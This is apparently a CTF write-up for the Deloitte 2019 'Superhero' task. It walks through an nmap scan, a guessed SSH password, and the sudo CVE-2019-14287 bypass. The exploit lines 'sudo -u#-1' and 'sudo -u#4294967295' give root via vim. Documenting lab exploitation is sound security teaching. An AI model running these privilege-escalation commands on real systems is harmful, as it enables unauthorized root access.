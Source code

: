 ```yaml
---
title: "Deloitte CTF Quals 2019: Superhero 🦸"
slug: deloitte-superhero
date: 06/11/2019
---
```


*Superhero* 🦸 was a task labelled infrastructure and worth 75 points. It is
a challenge that mostly revolves around [the recent `sudo` CVE](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287).

![Task Description](/assets/superhero/intro.png)

Let's start with a quick nmap scan:

```
$ nmap 3.9.190.45
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:34 GMT
Nmap scan report for ec2-3-9-190-45.eu-west-2.compute.amazonaws.com (3.9.190.45)
  Host is up (0.0038s latency).
  Not shown: 990 closed ports
  PORT     STATE    SERVICE
  22/tcp   open     ssh
  25/tcp   filtered smtp
  53/tcp   filtered domain
  135/tcp  filtered msrpc
  139/tcp  filtered netbios-ssn
  445/tcp  filtered microsoft-ds
  2000/tcp open     cisco-sccp
  2222/tcp open     EtherNetIP-1
  5060/tcp open     sip
  8008/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

We notice something unusal: `EtherNetIP-1` on port `2222`. This is a fairly
popular SSH port. Let's try:

```
$ ssh -p2222 geo@3.9.190.45
###############################################################
  Bruce's SSH Server. Login as bruce with the usual password!
###############################################################
geo@3.9.190.45's password:
```

So we know that the user is `bruce`. From the name of the challenge, we can
imagine that it is a reference to Bruce Wayne, the real name of Batman! So
let's try `batman` as password:

```
$ ssh -p2222 bruce@3.9.190.45
###############################################################
    Bruce's SSH Server. Login as bruce with the usual password!
###############################################################
bruce@3.9.190.45's password:
bruce@eb2037c7a5a1:~$
```

Well, I guess that even a superhero might not be aware of the best practices
when it comes to passwords...

From there, we locate the `flag.txt` file, but we can't read it.

```
bruce@eb2037c7a5a1:~$ ls -al /
total 84
[...]
--w-------   1 root root   20 Oct 23 13:56 flag.txt
[...]
bruce@eb2037c7a5a1:~$
```

We need to get root permissions. Let's see if we can use `sudo`:

```
bruce@eb2037c7a5a1:/$ cat /etc/sudoers
bruce ALL = (ALL, !root) /usr/bin/vim
bruce@eb2037c7a5a1:/$
```

We can run `/usr/bin/vim`, but not as `root`:

```
bruce@eb2037c7a5a1:/$ sudo /usr/bin/vim /flag.txt
Sorry, user bruce is not allowed to execute '/usr/bin/vim /flag.txt' as root on eb2037c7a5a1.
bruce@eb2037c7a5a1:/$
```

At this point, one of my teammates told me that the recent sudo vulnerability
should work. I gave it a try:

```
bruce@eb2037c7a5a1:/$ sudo -u#-1 /usr/bin/vim /flag.txt
```

It worked! We got our flag! We can even use the `:terminal` command in Vim
and enjoy a root shell.

![Task Description](/assets/superhero/root.png)

For the record, the other `sudo` payload also worked:

```
bruce@eb2037c7a5a1:/$ sudo -u#4294967295 /usr/bin/vim /flag.txt
```
